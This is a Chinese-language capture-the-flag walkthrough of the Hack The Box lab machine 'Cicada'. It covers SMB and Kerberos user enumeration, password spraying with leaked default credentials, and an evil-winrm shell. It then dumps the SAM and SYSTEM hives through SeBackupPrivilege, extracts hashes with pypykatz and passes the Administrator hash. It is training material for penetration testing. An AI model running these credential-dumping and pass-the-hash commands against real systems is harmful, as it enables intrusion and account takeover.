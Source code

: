 ```yaml
---
description: AD枚举 / SeBackupPrivilege /
---
```


# ✔️ Cicada

## 建立立足点

### 信息收集

* 使用Nmap对目标系统进行开放端口扫描：

```bash
nmap -sC -sV -p- -oA cicada 10.129.5.101 --open
```

<figure><img src="../../.gitbook/assets/1.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/2.png" alt=""><figcaption></figcaption></figure>

* 根据Nmap的输出信息和开放端口，判断该机器应该是域控，先将域名添加进/hosts文件中：

<figure><img src="../../.gitbook/assets/3.png" alt=""><figcaption></figcaption></figure>

* 尝试使用匿名登录SMB服务，获得了一些SMB共享目录：

<figure><img src="../../.gitbook/assets/4.png" alt=""><figcaption></figcaption></figure>

* 依次枚举各个目录后，发现只有/HR目录可以进入，查看后发现一个名为Notice from HR.txt的文本文件，把它下载到本地：

```bash
smbclient \\\\10.129.5.101\\HR
dir
mget *
```

<figure><img src="../../.gitbook/assets/5.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/7.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/6.png" alt=""><figcaption></figcaption></figure>

* 查看Notice from HR.txt文件内容得知是一封录用通知，里面包含了一个新入职员工用户的默认密码：<mark style="color:red;">**Cicada$M6Corpb\*@Lp#nZp!8**</mark>

<figure><img src="../../.gitbook/assets/8.png" alt=""><figcaption></figcaption></figure>

* 使用enum4linux进行枚举，没什么收获：

```bash
enum4linux 10.129.5.101
```

<figure><img src="../../.gitbook/assets/9.png" alt=""><figcaption></figcaption></figure>

* 此时已经获取到了一个有效密码，但是还没有有效用户名，使用nxc进行暴破得到一串用户名：

```bash
nxc smb 10.129.5.101 -u "guest" -p '' --rid-brute
```

<figure><img src="../../.gitbook/assets/10.png" alt=""><figcaption></figcaption></figure>

* 把这些用户名复制下来保存为一个username.txt文件，先用kerbrute跑一下有8个有效用户名：

```bash
./kerbrute_linux_amd64 userenum --dc 10.129.5.101 -d cicada.htb username.txt
```

<figure><img src="../../.gitbook/assets/11.png" alt=""><figcaption></figcaption></figure>

### GET SHELL

* 然后再使用nxc和用户名列表，还有之前收集到的默认密码，进行暴破：

```bash
nxc smb 10.129.5.101 -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8'
```

<figure><img src="../../.gitbook/assets/12.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/13.png" alt=""><figcaption></figcaption></figure>

* 已获取到了一个有效凭证：<mark style="color:red;">**michael.wrightson :Cicada$M6Corpb\*@Lp#nZp!8**</mark>
* 通过用户michael查询目标系统上更多的用户信息，找到了用户david的密码：

```bash
nxc smb 10.10.11.35 -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' --users
```

<figure><img src="../../.gitbook/assets/9 (29).png" alt=""><figcaption></figcaption></figure>

* 此时又得到了一个新的有效凭证：`david.orelious ：aRt$Lp#7t*VQ!3`，利用该凭证登录share共享目录：

```bash
smbclient -L //10.10.11.35 -U 'david.orelious'
```

<figure><img src="../../.gitbook/assets/10 (31).png" alt=""><figcaption></figcaption></figure>

* 依次枚举各个目录，在\DEV目录中发现一个powershell脚本文件：**Backup\_script.ps1**

```bash
smbclient \\\\10.10.11.35\\DEV -U 'david.orelious'
```

<figure><img src="../../.gitbook/assets/11 (28).png" alt=""><figcaption></figcaption></figure>

* 阅读该脚本发现另一个新的有效凭证：`emily.oscars ：Q!3@Lp#M6b*7t*Vt`

<figure><img src="../../.gitbook/assets/12 (27).png" alt=""><figcaption></figcaption></figure>

* 利用emily这个凭证使用evil-winrm进行登录，get shell：

```bash
evil-winrm -i 10.10.11.35 -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
```

<figure><img src="../../.gitbook/assets/13 (28).png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本地信息收集

* 上传winPEAS进行信息收集：

upload winPEASx64.exe

<figure><img src="../../.gitbook/assets/14 (25).png" alt=""><figcaption></figcaption></figure>

* 同时可以简单的手动枚举一下，比如当前账户的权限有哪些：

```bash
whoami /priv
```

<figure><img src="../../.gitbook/assets/15 (24).png" alt=""><figcaption></figcaption></figure>

* 发现当前账户有备份操作的权限，这意味着可以利用该特权下载sam.hive文件和system.hive文件，从中提取Administrator的密码哈希，再利用它进行登录

### 漏洞利用

* 创建一个temp目录：

```bash
mkdir C:\temp
```

<figure><img src="../../.gitbook/assets/16 (23).png" alt=""><figcaption></figcaption></figure>

* 将目标系统的sam文件和system文件存到当前的temp目录中：

```bash
reg save hklm\sam C:\temp\sam.hive
reg save hklm\system C:\temp\system.hive
```

<figure><img src="../../.gitbook/assets/17 (21).png" alt=""><figcaption></figcaption></figure>

* 将这两个文件下载到Kali本地

### ROOT

* 使用这两个文件提取凭证：

```bash
pypykatz registry -sam sam.hive system.hive -o secrets.txt
```

<figure><img src="../../.gitbook/assets/18 (20).png" alt=""><figcaption></figcaption></figure>

* 获得Administrator的密码哈希：

<figure><img src="../../.gitbook/assets/19 (20).png" alt=""><figcaption></figcaption></figure>

* 利于获取到的哈希进行登录，获得admin权限的shell：

```bash
evil-winrm -i 10.10.11.35 -u Administrator -H '87e7c93a3e8a0ea4a581937016f341'
```

<figure><img src="../../.gitbook/assets/20 (17).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/21 (15).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}

{% endhint %}
